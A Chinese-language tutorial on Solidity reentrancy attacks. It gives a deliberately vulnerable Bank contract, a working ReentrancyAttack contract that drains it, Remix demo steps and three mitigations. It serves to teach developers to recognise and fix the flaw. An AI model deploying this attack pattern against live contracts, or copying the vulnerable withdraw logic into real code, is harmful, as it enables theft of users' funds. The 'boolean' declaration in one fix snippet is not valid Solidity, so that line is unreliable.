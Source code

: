 # 合约重入攻击

## 原理分析

合约重入攻击，是指在同一交易中对业务合约进行多次调用，从而实现对合约的攻击。

- 合约重入

如果业务合约的公开方法中，有提现 Ether 或者调用第三方合约的操作，那么就可以对合约方法的进行二次以及多次调用，从而实现合约重入。

- 重入攻击

大多数情况下，重入攻击利用了业务合约先提现 Ether 或者调用第三方合约，然后修改合约状态的漏洞，从而实现重入攻击。

## 流程图示

- 合约重入
```mermaid
graph TB
    sender[调用者] --> contract[业务合约] --> target[目标合约地址] -- 重入 --> contract
```

- 重入攻击
```mermaid
graph TB
    start[方法开始] --> check[状态检查] --> callIt[提现 Ether 或者调用第三方合约] -- 重入攻击 --> start
    callIt --> change[修改状态] --> endIt[方法结束]
```

## 示例代码

这是一个简单的 Bank 合约示例，它的功能是存入和提现 Ether。如果你看不出合约的问题，说明你正需要学习这节课。(这个合约有巨大漏洞，请不要直接使用在任何实际业务中)

```solidity
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.12;

interface IBank {
    function deposit() external payable;

    function withdraw() external;
}

contract Bank {
    mapping(address => uint256) public balance;
    uint256 public totalDeposit;

    function ethBalance() external view returns (uint256) {
        return address(this).balance;
    }

    function deposit() external payable {
        balance[msg.sender] += msg.value;
        totalDeposit += msg.value;
    }

    function withdraw() external {
        require(balance[msg.sender] > 0, "Bank: no balance");
        msg.sender.call{value: balance[msg.sender]}("");
        totalDeposit -= balance[msg.sender];
        balance[msg.sender] = 0;
    }
}

contract ReentrancyAttack {
    IBank bank;

    constructor(address _bank) {
        bank = IBank(_bank);
    }

    function doDeposit() external payable {
        bank.deposit{value: msg.value}();
    }

    function doWithdraw() external {
        bank.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {
        bank.withdraw();
    }
}
```

## 演示流程

1. 打开 [https://remix.ethereum.org/](https://remix.ethereum.org/)

2. 选择 solidity 版本为 0.8.12，部署 Bank 合约。

3. 将 Bank 合约地址作为参数部署 ReentrancyAttack 合约。

4. value 选择 1 Ether，点击 Bank 合约的 deposit 方法，存入 1 Ether。

5. value 选择 1 Ether，点击 ReentrancyAttack 合约的 doDeposit 方法，存入 1 Ether。

6. 点击 Bank 合约的 totalDeposit 方法，是 2 Ether，点击 Bank 合约的 ethBalance 方法，也是 2 Ether。

7. 点击 ReentrancyAttack 合约的 doWithdraw 方法，进行重入攻击。

8. 点击 Bank 合约的 totalDeposit 方法，是 1 Ether，点击 Bank 合约的 ethBalance 方法，却是 0 Ether。

9. 使用 Bank 合约的 balance 方法查看 ReentrancyAttack 合约地址和合约创建者，发现合约创建者 balance 为 1 Ether，但是合约里已经没有 Ether 可以提供兑付。

## 修复问题

- 禁止重入
    ```solidity
    boolean public entered;

    modifier nonReentrant() {
        require(!entered, "Bank: reentrant call");
        entered = true;
        _;
        entered = false;
    }

    function withdraw() nonReentrant external {
        require(balance[msg.sender] > 0, "Bank: no balance");
        msg.sender.call{value: balance[msg.sender]}("");
        totalDeposit -= balance[msg.sender];
        balance[msg.sender] = 0;
    }
    ```
    使用 nonReentrant 来禁止合约重入，可以防止重入攻击。这里推荐使用 openzeppelin 的官方防重入合约 `@openzeppelin/contracts/security/ReentrancyGuard.sol`。

- 在提现 Ether 或者调用第三方合约之前，先修改合约状态
    ```solidity
    function withdraw() external {
        require(balance[msg.sender] > 0, "Bank: no balance");
        uint256 _balance = balance[msg.sender];
        totalDeposit -= balance[msg.sender];
        balance[msg.sender] = 0;
        msg.sender.call{value: _balance}(""); 
    }
    ```
    优先修改合约状态，虽然不能禁止合约重入，但可以避免被重入攻击。

- 禁止转账 Ether 到合约地址
    ```solidity
    function withdraw() nonReentrant external {
        require(balance[msg.sender] > 0, "Bank: no balance");
        uint256 size;
        address sender = msg.sender;
        assembly {
            size := extcodesize(sender)
        }
        require(size == 0, "Bank: cannot transfer to contract");
        msg.sender.call{value: balance[msg.sender]}("");
        totalDeposit -= balance[msg.sender];
        balance[msg.sender] = 0;
    }
    ```
    禁止转账 Ether 到合约地址，可以防止转账 Ether 导致的合约重入。
